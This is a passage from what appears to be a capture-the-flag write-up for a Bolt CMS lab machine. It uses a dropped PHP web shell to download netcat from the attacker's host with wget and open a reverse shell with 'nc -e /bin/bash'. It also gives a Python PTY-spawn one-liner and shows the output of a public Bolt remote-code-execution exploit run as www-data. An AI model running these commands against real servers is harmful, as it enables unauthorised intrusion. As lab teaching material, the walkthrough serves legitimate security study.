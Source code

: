 Using the `c.php` file we just dropped, we can browse to `http://serverip/files/cmd.php?c=wget http://yourip:8000/nc` to download a linux netcat to the server, you will see in your web server if it has been retrieved.

This file is dropped in the same directory as our `c.php`. We make this `nc` executable like this: `http://serverip/files/cmd.php?c=chmod 755 nc`

Now start a netcat listener on your own machine, listening on a free port (we use `4444` here)

~~~
ncat -nv -l -p 4444
~~~

When it is uploaded and made executable, we can run it like this: `http://serverip/files/cmd.php?c=./nc -e /bin/bash yourip 4444`.

If all goes well, you will see a connection coming in from the bolt server.
(Don’t forget to do the python pty dance, to make sure you have a shell with PTY’s allocated, some commands, especially sudo, require a PTY shell to run)

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

## #5.1 - What is the username of the user running the web server?

Let's first run the exploit and confirm it's working:

~~~
$ python bolt.py http://10.10.13.44 admin password

 ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄  ▄       ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄  ▄▄       ▄▄  ▄▄▄▄▄▄▄▄▄▄▄      
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░▌     ▐░░▌▐░░░░░░░░░░░▌     
▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀█░▌▐░▌      ▀▀▀▀█░█▀▀▀▀ ▐░█▀▀▀▀▀▀▀▀▀ ▐░▌░▌   ▐░▐░▌▐░█▀▀▀▀▀▀▀▀▀      
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌▐░▌ ▐░▌▐░▌▐░▌               
▐░█▄▄▄▄▄▄▄█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌ ▐░▐░▌ ▐░▌▐░█▄▄▄▄▄▄▄▄▄      
▐░░░░░░░░░░▌ ▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌     
▐░█▀▀▀▀▀▀▀█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌   ▀   ▐░▌ ▀▀▀▀▀▀▀▀▀█░▌ 
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌       ▐░▌          ▐░ 
▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌     ▐░█▄▄▄▄▄▄▄▄▄ ▐░▌       ▐░▌ ▄▄▄▄▄▄▄▄▄█░▌
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░▌       ▐░▌▐░░░░░░░░░░░▌
 ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀       ▀▀▀▀▀▀▀▀▀▀▀  ▀         ▀  ▀▀▀▀▀▀▀▀▀▀▀

Pre Auth rce with low credintanl
#Zero-way By @r3m0t3nu11 speical thanks to @dracula @Mr_Hex
[+] Retrieving CSRF token to submit the login form
[+] Login token is : qvZXTPCH360kuPkHdY1CJ3t0vda4hsw3oQ6uMDnSf3Y
[+] SESSION INJECTION 
[+] FOUND  : test27
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[+] FOUND  : test33
Enter OS command , for exit 'quit' : id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~